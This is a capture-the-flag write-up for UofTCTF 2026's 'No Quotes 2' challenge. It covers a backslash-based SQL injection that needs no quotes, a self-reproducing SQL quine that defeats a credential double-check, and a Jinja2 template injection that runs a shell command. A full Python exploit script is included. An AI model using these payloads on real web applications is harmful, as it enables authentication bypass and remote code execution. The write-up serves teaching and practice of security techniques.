


## UofTCTF 2026 - No Quotes 2 Write-up



### Step 1: Analyzing the Source Code and Constraints

The challenge is a Flask web application backed by a MariaDB database. It presents a login form, but with strict constraints similar to the previous iteration ("No Quotes 1"), plus a new security mechanism.

The core components are:
1.  **The WAF:** A function explicitly forbids single (`'`) and double (`"`) quotes in the input.
2.  **The Injection Point:** The login query is constructed using f-strings, which is vulnerable to SQL Injection:
    ```python
    query = (
        "SELECT username, password FROM users "
        f"WHERE username = ('{username}') AND password = ('{password}')"
    )
    ```
3.  **The Double Check (The Twist):** Unlike the previous version where we just needed a valid row, this version verifies that the data returned by the database **exactly matches** the user's input:
    ```python
    if not username == row[0] or not password == row[1]:
        return render_template(..., error="Invalid credentials.")
    ```

This creates a recursive problem: We need to inject a payload into the `password` field to execute SQL commands, but the database must return that *exact same payload* as the result for the password column. This requires a **SQL Quine**.

### Step 2: Crafting the Exploitation Strategy

Our goal is to bypass authentication and achieve Remote Code Execution (RCE) via Server-Side Template Injection (SSTI) to run the `/readflag` binary.

The attack plan consists of three distinct parts:

1.  **The Injection (Backslash Trick):**
    We send `username = \`. In the SQL query, this becomes `username = ('\')`. The backslash escapes the closing quote. The database interprets the query such that the string continues until the next quote (which is the opening quote of the password field). This allows us to inject arbitrary SQL in the `password` field.

2.  **The Payload (SSTI via Request Args):**
    We need to execute `os.popen('/readflag').read()`. Writing this without quotes in Jinja2 is verbose (requiring `chr()`). To optimize, we pass the strings as GET parameters (`?a=os&b=/readflag`) and access them via `request.args`.
    *   **Payload:** `{{ request.application.__globals__.__builtins__.__import__(request.args.a).popen(request.args.b).read() }}`

3.  **The Quine (Self-Reproducing Query):**
    To satisfy the "Double Check", we construct a SQL query that outputs itself. We use the `REPLACE` function technique.
    *   **Concept:** `REPLACE(Template, Placeholder, HEX(Template))`
    *   We create a template string containing a placeholder (e.g., `?`).
    *   We hex-encode the template.
    *   We tell SQL to take the template and replace the placeholder with the hex-encoded version of itself.
    *   The result is a string identical to the input we sent.

### Step 3: The Exploit Script and Execution

I wrote a Python script to automate the generation of the Quine and the retrieval of the flag. The script calculates the necessary hex values and ensures the payload perfectly matches the SQL logic to pass the python-side verification.

```python
import requests
import binascii
import re

URL = "https://no-quotes-2-1dd0f3fe1ed1cc1f.chals.uoftctf.org"
URL = URL.rstrip('/')

def to_hex(s):
    # MySQL HEX() returns uppercase, Python must match
    return binascii.hexlify(s.encode()).decode().upper()

def solve():
    # 1. Pass commands via URL parameters to avoid quotes in SSTI
    target_url = f"{URL}/login?a=os&b=/readflag"
    print(f"[*] Target: {target_url}")

    # 2. SSTI Payload: Imports 'os' and runs '/readflag' using request.args
    ssti_payload = (
        "{{ request.application.__globals__.__builtins__"
        ".__import__(request.args.a).popen(request.args.b).read() }}"
    )

    # 3. Username: Backslash eats the quote in SQL
    username_val = ssti_payload + "\\"
    username_hex = to_hex(username_val)

    # 4. Password: The SQL Quine
    # Structure: UNION SELECT <USER>, REPLACE(<TEMPLATE>, '?', HEX(<TEMPLATE>))
    # 0x3F is '?'
    template = f") UNION SELECT 0x{username_hex}, REPLACE(0x?, 0x3F, HEX(0x?)) #"
    template_hex = to_hex(template)
    
    # Construct the final self-referencing string
    password_val = template.replace("?", template_hex)
    
    data = {
        "username": username_val,
        "password": password_val
    }

    print(f"[*] Sending corrected Quine payload...")

    try:
        s = requests.Session()
        r = s.post(target_url, data=data)
        
        content = r.text
        
        # Follow redirect manually if needed or check home
        if r.status_code == 200 and "Redirecting" in r.text:
            print("[*] Login successful! Redirecting to home...")
            # Pass args again just in case
            r_home = s.get(f"{URL}/home?a=os&b=/readflag") 
            content = r_home.text
        elif r.history:
             print("[*] Redirect followed automatically.")
        
        # Double check home if content is missing
        if "Under construction" not in content and "Redirecting" not in content:
             r_home = s.get(f"{URL}/home?a=os&b=/readflag")
             if "Under construction" in r_home.text:
                 content += r_home.text

        # Extract Flag
        flag = re.search(r"uoftctf\{.*?\}", content)
        
        if flag:
            print(f"\n[+] FLAG FOUND: {flag.group(0)}\n")
        else:
            if "Invalid credentials" in content:
                print("[-] Error: Still Invalid Credentials. Quine mismatch.")
            elif "No quotes allowed" in content:
                print("[-] Error: WAF blocked the request.")
            else:
                print("[-] Flag not found in response.")
    
    except Exception as e:
        print(f"[-] Connection Error: {e}")

if __name__ == "__main__":
    solve()
```

### Step 4: Capturing the Flag

Running the script successfully bypasses the WAF, injects the Quine into the database, passes the Python double-check, and triggers the SSTI on the home page.



### Flag
`uoftctf{d1d_y0u_wR173_4_pr0P3r_qU1n3_0r_u53_INFORMATION_SCHEMA???}`